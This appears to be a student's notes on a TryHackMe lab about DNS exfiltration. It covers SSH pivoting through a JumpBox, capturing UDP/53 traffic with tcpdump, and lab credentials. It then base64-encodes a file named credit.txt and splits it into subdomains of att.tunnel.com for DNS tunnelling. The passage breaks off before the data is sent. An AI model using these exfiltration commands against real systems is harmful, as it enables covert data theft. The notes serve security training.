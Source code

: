 `root@AttackBox$ ssh thm@10.10.21.6 -p 2322`

	- This assumes port forwarding/portbending(?) at the JumpBox VM using SSH.
	- Note that the difference between forwarding and bending is that the latter assumes you as the person connecting, don't know you're getting redirected.

##### 2. Receiving DNS request:
- Capture the network traffic for ANY incoming `UDP/53` packets using the `tcpdump` tool.
`thm@attacker$ sudo tcpdump -i eth0 udp port 53 -v`

![](/assets/img/Pasted image 20230110222421.png)

	- Another required thing is that the compromised machine on the OTHER network should have a tool that could capture network traffic like 'tcpdump' which is mostly downloaded by the attacker for this specific thing.

##### 3. Once the attacker machine at Network 2 is ready, we can move to the next step which is to connect to our `victim2` through SSH, which could be done from the `JumpBox` using the credentials: `thm:tryhackme`
`thm@jump-box$ ssh thm@victim2.thm.com`

**OR from AttackBox**:
`root@AttackBox$ ssh thm@10.10.21.6 -p 2122`

###### Assumptions: so this assumes that you as the Attacker have compromised THREE machines in total (and we can pivot to each of them):
			1. The JumpBox machine which is the machine that bridges the two networks.
			2. The new attacker machine at Network 2 acts as a recipient of the exfiltrated data from a machine at Network 1.
			3. The victim2 machine at Network 1 to get the data from.

- Note that the capability to SSH through different machines from network 1 and 2 from `AttackBox` means that there's a presumption that there's persistence mechanisms employed on those machines as well the `JumpBox`.

##### 4. On the `victim2` machine, there is a `task9/credit.txt`
![](/assets/img/Pasted image 20230110223339.png)

##### 5. Sending the file through DNS requests:
- Convert the contents into a `encoded` string representation such as `Base64`,`Hex`, `Binary`,etc.
- We just use `Base64` in our case:
`thm@victim2$ cat task9/credit.txt | base64`

![](/assets/img/Pasted image 20230110223516.png)

##### 6. Since these characters exceed 63 bytes/characters, we split them into different DNS requests and attach it as a subdomain name:
`thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/'`
